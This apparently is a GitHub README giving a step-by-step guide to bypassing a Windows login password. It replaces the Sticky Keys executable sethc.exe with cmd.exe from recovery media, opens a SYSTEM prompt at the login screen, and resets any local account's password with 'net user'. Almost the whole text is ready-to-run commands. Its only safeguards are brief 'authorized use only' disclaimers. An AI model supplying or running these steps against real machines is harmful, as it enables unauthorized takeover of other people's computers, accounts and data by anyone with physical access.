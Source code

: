 ✅ Sticky Keys Method – Bypass Windows Password

# 🛠️ Bypass Windows Password Using Sticky Keys (`sethc.exe`)

This method leverages the Sticky Keys feature in Windows by replacing its executable with `cmd.exe`. Once replaced, pressing the **Shift key five times** at the login screen opens a **system-level Command Prompt**, allowing you to reset the password of any local user account.

> ⚠️ Use only on systems you are authorized to access.

---

## 🧰 What You Need

- A Windows installation or recovery USB/DVD
- Physical access to the target system

---

## 🚀 Steps to Bypass Password

### 1️⃣ Boot Into Recovery Environment

1. Insert Windows bootable media and restart the PC.
2. On the setup screen, press `Shift + F10` to open **Command Prompt**.

---

### 2️⃣ Backup Original Sticky Keys Executable

copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc.bak

✔️ This saves a backup of the original Sticky Keys program.

---

### 3️⃣ Replace Sticky Keys With Command Prompt

```cmd
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe /y
```

✔️ Now, pressing `Shift` 5 times at the login screen will open CMD.

---

### 4️⃣ Restart and Access Command Prompt

1. Remove the bootable USB/DVD and restart the computer.
2. At the Windows login screen, press **Shift** 5 times.

✅ A **Command Prompt with SYSTEM privileges** should open.

---

### 5️⃣ Reset the Password

1. List admin accounts:

   ```cmd
   net localgroup administrators
   ```

2. Reset the password of your desired user:

   ```cmd
   net user <username> *
   ```

✅ Enter and confirm the new password when prompted.

---

### 6️⃣ Restore the Original `sethc.exe` (Optional but Recommended)

After logging in:

```cmd
copy C:\Windows\System32\sethc.bak C:\Windows\System32\sethc.exe /y
```

---

## ⚠️ Notes

* This method won't work if the system drive is encrypted (e.g., BitLocker).
* Must be run with physical access and from recovery environment.
* Ethical use only — never apply on unauthorized systems.

---

## 🛡️ Legal Disclaimer

This technique is for:

* Educational and ethical hacking purposes
* Recovery of your own or authorized systems

❌ Unauthorized use is strictly prohibited.

---

🔐 *Reset smart. Stay ethical.*
